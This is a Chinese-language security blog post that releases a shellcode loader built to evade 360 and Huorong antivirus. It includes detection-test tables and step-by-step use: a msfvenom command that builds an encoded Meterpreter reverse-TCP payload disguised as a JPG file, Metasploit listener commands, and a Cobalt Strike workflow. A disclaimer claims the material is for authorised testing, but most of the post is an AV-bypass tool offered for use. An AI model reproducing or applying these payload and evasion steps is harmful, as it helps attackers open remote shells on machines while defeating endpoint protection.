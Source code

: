 # 【工具分享】免杀360&火绒的shellcode加载器

# 说明

本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

工具放出来很快就会失效！！！仅供参考！



更多详情请关注公众号：乌鸦安全



# 1. 免杀效果


该`shellcode`加载器目前可以过`360&火绒`，`Windows Defender`没戏。。。
​

代码和思路暂不开源！

你可以在我的GitHub上下载该工具：

如果你访问GitHub困难，你可以在`乌鸦安全公众号`后台直接回复关键字：加载器 下载！



方法： 生成`msf`或`cs`的`shellcode`原生格式，命名为`crowsec.jpg`（这个是写死的），将其和`crowsec_shelllcodeBypass.exe`（这个名字可以修改的）放在一个目录下，直接双击即可！
## 1.1 当前



| **杀软\免杀效果** | **虚拟机环境：Windows 10** | **虚拟机环境：Windows 7** | **虚拟机环境：Windows server 2019** | **最新测试时间** |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版(关闭自动发送可疑样本) | ❌ | 未测 | ❌ | 2022.01.19 |
| 联网360最新版（其实测试没有什么意义） | ✅ | ✅ | ✅ | 2022.01.19 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.19 |



## 1.2 半年前


这个数据已没有意义。

| **~~杀软\免杀效果~~** | **~~虚拟机环境：Windows 10~~** | **~~虚拟机环境：Windows 7~~** | **~~虚拟机环境：Windows server 2019~~** | **~~最新测试时间~~** |
| --- | --- | --- | --- | --- |
| ~~联网Windows Defender最新版(关闭自动发送可疑样本)~~ | ~~✅~~ | ~~未测~~ | ~~✅~~ | ~~2021.06.21~~ |
| ~~联网360最新版（~~~~其实测试没有什么意义~~~~）~~ | ~~未测~~ | ~~未测~~ | ~~未测~~ | ~~2021.06.21~~ |
| ~~联网火绒最新版~~ | ~~未测~~ | ~~✅~~ | ~~✅~~ | ~~2021.06.21~~ |



## 2.3 说明


这个`shellcode`加载器工具是我在`2021-06-21`号做的，优化之后VT查杀为`0/68`，一个月之后我再去检查，甚至到现在去检查，当前的VT查杀依旧为`0/68`。
​

`2021-06-21`是能过`火绒`、`360`、`Windows Defender(关闭自动发送可疑样本)`
​

前几天在测试的时候，发现过不了`Windows Defender`，今天稍微优化了一下，发现还是过不了`Windows Defender`，主要原因是识别了`msf`的部分特征！！！
​

鉴于目前已经有了其他的免杀方案，所以在这里就把工具分享出来（🐶），至少还能过`360`和`火绒`。（放出来之后，基本上几小时就没用了）。
​



![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601558210-77264d08-585e-4214-86bf-f2ac13d84d07.png)


查询时间：`2022.01.19`
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642601641740-37271f4b-227f-42e2-aca9-8f728e283c54.png)


# 3. 使用方法
# 3.1. msf上线


在这里使用msfvenon生成shellcode，为了好点的效果，这里使用`shikata_ga_nai` 编码器器对`shellcode`进行混淆编码，编码之后的`shellcode`并不是所有杀软都识别不出来，详情可以看我以前的文章：
xxxx
```
 msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 7 -b '\x00'  lhost=10.211.55.2 lport=1234  -f raw -o crowsec.jpg
```


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642602696391-0b17ed2f-a282-491a-a92a-1473b5213338.png)


使用msf进行监听：
​

![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604110630-14245c70-16eb-4d0b-8cd1-d7528db5e163.png)
```python
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload  windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:1234
```
### 3.1.1 360
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642604510319-4ab109f8-01d4-484b-92fe-89972e00357b.png)
### 3.1.2 Windows Defender


被杀
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606086645-b320419d-f848-4b95-b272-068940bc7fe2.png)


### 3.1.3 火绒
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642606183320-773dde9e-d3a4-4bf4-bede-a3639eeb3aa5.png)




## 3.2 Cobalt Strike上线


在这里只说思路，能够过`火绒`和`360`，但是不能过`Windows Defender`，同样的问题：特征出现在`shellcode`上面。


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333743849-3faa3f92-b9be-4d13-8639-4ef47d31d91e.png)


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333663432-aeef544c-00f5-46d0-afa5-be8eac02cbaf.png)
将文件保存为`crowsec.jpg`（下图是一个示例，主要是太累了，不想换了。。。）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333734629-94ba4bc1-8893-4882-a850-8e546fb212c4.png)
现将生成的bin文件修改为png文件，然后双击上线操作


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333800699-980bd71e-f2ff-4383-b14e-7453e21db605.png)


但是这里可以发现，当前的`payload`已经被标记特征，直接被杀，但是免杀`360`和`火绒`是不影响的。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624333824066-d215bf3b-bff0-413e-9791-8ed69dcecafe.png)
​



